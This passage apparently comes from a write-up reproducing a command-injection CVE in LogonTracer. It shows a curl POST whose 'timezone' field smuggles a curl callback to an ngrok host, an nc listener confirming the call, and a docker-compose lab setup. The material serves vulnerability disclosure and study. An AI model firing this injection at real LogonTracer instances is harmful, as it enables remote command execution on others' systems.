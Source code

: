 ```bash
ngrok http 8888
```

Now we run `curl` command to `POST` to `/upload` endpoint of logontracer. As a payload we use `curl` command:


```bash
curl -v -X POST http://localhost:8080/upload \
-H "Host: localhost" \
-H "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ar; rv:1.9.2) Gecko/20100115 Firefox/3.6" \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Accept-Encoding: gzip" \
--data-urlencode "logtype=XML" \
--data-urlencode "timezone=1;curl -H \"test:1\" https://X.ngrok-free.app/;" 
```

**Note:** `https://X.ngrok-free.app/` is our ngrok url pointing to `http://localhost:8888`.

We ask logontracer to execute `curl -H "test:1" https://X.ngrok-free.app/`. We added `-H test:1` header to make sure the call is done from our payload. You'll see why it's important later when we discuss a wild case of that CVE.

Running the above `curl` command results:

```bash
nc -lvp 8888
Listening on 0.0.0.0 8888
Connection received on localhost 59910
GET / HTTP/1.1
Host: X.ngrok-free.app
User-Agent: curl/7.61.0
Accept: */*
Test: 1
X-Forwarded-For: A.B.C.D
X-Forwarded-Host: X.ngrok-free.app
X-Forwarded-Proto: https
Accept-Encoding: gzip
```

where `A.B.C.D` is my test machine external IP.

We can see the `test` header is got.

#### Using host.docker.internal url

Accessing `nc` running on the host machine from docker can be done by replacing `localhost:8888` by `host.docker.internal:8888` inside the container which is a special url which resolves to the host machine. We need to add `extra_hosts` to the `docker-compose.yaml`:

```yaml
version: '3.8'

services:
  neo4j:
    image: neo4j:3.2.3
    container_name: neo4j
    ports:
      - "7474:7474"
      - "7687:7687"
    environment:
      - NEO4J_AUTH=neo4j/password

  logontracer:
    image: jpcertcc/docker-logontracer:v1.2.0
    container_name: logontracer
    ports:
      - "8080:8080"
```